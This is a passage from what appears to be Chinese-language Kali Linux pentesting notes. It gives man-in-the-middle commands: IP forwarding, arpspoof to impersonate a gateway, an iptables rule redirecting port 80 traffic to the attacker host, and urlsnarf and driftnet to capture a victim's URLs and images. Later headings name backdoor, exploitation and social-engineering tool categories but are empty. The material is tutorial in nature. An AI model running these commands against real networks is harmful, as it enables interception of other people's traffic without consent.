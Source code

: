```
echo 1 >> /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 192.168.6.1 /伪装网关
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
当用户向网关192.168.6.1的80端口发送请求时，将会被转发为8080端口发送到攻击者主机上
```

##### 6.8.3 捕获并监视无线网络数据

> 中间人攻击

```
开启路由转发
arpspoof -i wlan0 -t 192.168.1.10 192.168.1.1  /攻击目标系统和网关
urlsnarf -i wlan0  /查看访问url
driftnet -i wlan	/查看访问图片
.3
```



### 7.逆向工程



### 8.漏洞利用工具集



### 9.嗅探/欺骗

> 网络欺骗、网络嗅探

### 10.权限维持

> 系统后门、Tunnel工具集、Web后门

### 11.数字取证

> 取证分割工具集、取证镜像工具集、数字取证、数字取证套件、PDF取证工具集

### 12.报告



### 13.社会工程学



### 14.系统服务

> BeEF、Dradis、GVM、OpenVas